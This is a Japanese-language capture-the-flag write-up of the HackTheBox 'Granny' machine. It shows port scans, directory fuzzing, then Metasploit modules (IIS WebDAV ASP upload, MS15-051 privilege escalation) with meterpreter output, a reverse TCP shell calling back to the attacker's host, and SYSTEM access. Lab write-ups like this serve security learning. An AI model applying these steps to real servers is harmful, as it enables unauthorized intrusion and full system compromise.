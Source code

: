 
# Granny - HackTheBox

このボックスを一言でまとめると。アップデートしてくれ　;-;

# Enumeration・情報収集

## Rustscan

```bash
Open 10.10.10.15:80
```

## Nmap

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Sun, 04 Sep 2022 22:11:56 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## ffuf

```bash
 :: Method           : GET
 :: URL              : http://granny.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 71ms]
_private                [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]
_vti_log                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 69ms]
_vti_bin                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 126ms]
aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 62ms]
images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 68ms]
:: Progress: [20476/20476] :: Job [1/1] :: 463 req/sec :: Duration: [0:00:33] :: Err
```

# Foothold・初期侵入 & Root

Microsoft IIS 6.0の脆弱性をググってみると、TrendMicroに書かれた![記事　(英語のみ！)](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html)が出てきました。

偶然metasploitでmoduleを検索すると"windows/iis/iis_webdav_upload_asp"のmoduleが発見した。

試すとmeterpreterシェルができて、wmiprvse.exeにプロセスマイグレーションしました！

```cmd
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1972  2700  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad10F81.tmp\svchost.exe
 2052  1004  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2164  1848  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2292  584   wmiprvse.exe
 2700  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2768  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3004  344   logon.scr

meterpreter > migrate 1964
[*] Migrating from 1972 to 1964...
[*] Migration completed successfully.
meterpreter > getuid
```

```cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
```

Version 5.2 seems pretty old so I ran it through Windows-Exploit-Suggestor.

Windowsバージョン5.2はかなり古くてwindows-exploit-suggesterっていうスクリプト起動して、MS15-051 - ClientCopyImageっていうエキスプロイトは最初でました。

やってみるとrootシェルゲットだ！

```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.29:1234 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 3984 launched.
[*] Reflectively injecting the DLL into 3984...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.29:1234 -> 10.10.10.15:1035) at 2022-09-04 18:10:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

"Lakis"と"Administrator"のホームフォルダーで二つのフラグをゲットしました！　:)
